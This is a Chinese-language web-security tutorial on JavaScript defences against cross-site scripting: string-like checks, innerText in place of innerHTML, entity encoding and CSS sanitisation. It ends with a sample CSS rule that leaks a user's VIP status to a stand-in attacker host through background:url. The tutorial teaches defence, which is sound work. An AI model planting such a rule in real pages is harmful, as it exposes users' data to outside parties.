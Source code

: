 你好，我是石川。

对于大多Web应用来说，我们的程序所提供的功能是对外公开的，这给我们带来了流量的同时，也给我们的系统带来了风险。而且越是关注度高的应用，就越有可能遭到攻击，所以安全是任何应用都要重视的一个话题。

那么今天，我们来看一下在JavaScript中需要做的安全考虑。这里就包含了跨站脚本攻击（XSS）、跨站请求伪造（CSRF）和XXE漏洞。下面，我们来一一看一下这些问题，总结下相关的安全解决方法。

## 跨站脚本攻击

跨站脚本攻击是一种非常常见的攻击。顾名思义，它指的就是通过来自跨网站的脚本发起的攻击。为了降低出现XSS漏洞的可能性，有一条重要的开发原则是我们 **应该禁止任何用户创建的未经过处理的数据传递到DOM中**。而当用户创建的数据必须传递到DOM中时，应该尽量以字符串的形式传递。

### 类字符串检查

我们可以通过多种方式在客户端和服务器上对数据进行检查。其中一种方法是利用JavaScript中的内置函数 `JSON.parse()`，它可以将文本转换为JSON对象，因此将数字和字符串与转换后的内容做对比。如果一致，就可以通过检查，但函数等复杂的数据类型的对比是会失败的，因为它们不符合与JSON兼容的格式。

```javascript
var isStringLike = function(val) {
  try {
     return JSON.stringify(JSON.parse(val)) === val;
  } catch (e) {
    console.log('not string-like');
  }
};

```

### 字符串净化

另外需要注意的是，字符串/类字符串虽然不是DOM本身，但仍然可以被解释或转换为DOM。为了避免这种情况，我们必须确保DOM会将其直译为字符串或类字符串，而不作转换。

因此在使用 DOM API 时，需要注意的是， **任何将文本转换为DOM或脚本的行为都是潜在的XSS 攻击**。我们应该尽量避免使用 innerHTML、DOMParser、Blob 和 SVG 这些接口。以 innerHTML 为例，我们最好使用 innerText 而不是 innerHTML 来注入 DOM，因为innerText 会做净化处理，将任何看起来像HTML标签的内容表示为字符串。

```javascript
var userInput = '<strong>hello, world!</strong>';
var div = document.querySelector('#userComment');
div.innerText = userInput; // 这里的标签被解释成字符串

```

### HTML实体编码

另外一种防御措施是，对用户提供的数据中存在的所有HTML标记执行HTML实体转义。实体编码允许某些特定的字符在浏览器中显示，但不能将其解释为JavaScript来执行。比如标签<>对应的编码就是 & + lt; 和 & + gt;。

### CSS净化

CSS 的净化包括了净化任何 HTTP 相关的 CSS 属性，或者只允许用户更改指定的 CSS 字段，再或者干脆禁止用户上传 CSS 等。因为相关的属性，比如 `background:url`，可能会导致黑客远程改变页面的展示。

```javascript
#bankMember[status="vip"] {
  background:url("https://www.hacker.com/incomes?status=vip");
}

```
